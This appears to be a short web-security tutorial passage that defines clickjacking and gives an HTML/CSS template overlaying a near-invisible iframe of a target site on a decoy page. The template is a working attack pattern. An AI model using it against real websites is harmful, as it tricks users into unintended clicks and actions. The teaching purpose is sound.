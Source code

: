 **Clickjacking** is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.
# How to construct a basic clickjacking attack
Clickjacking attacks use CSS to create and manipulate layers. The attacker incorporates the target website as an iframe layer overlaid on the decoy website. An example using the style tag and parameters is as follows:
```bash
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```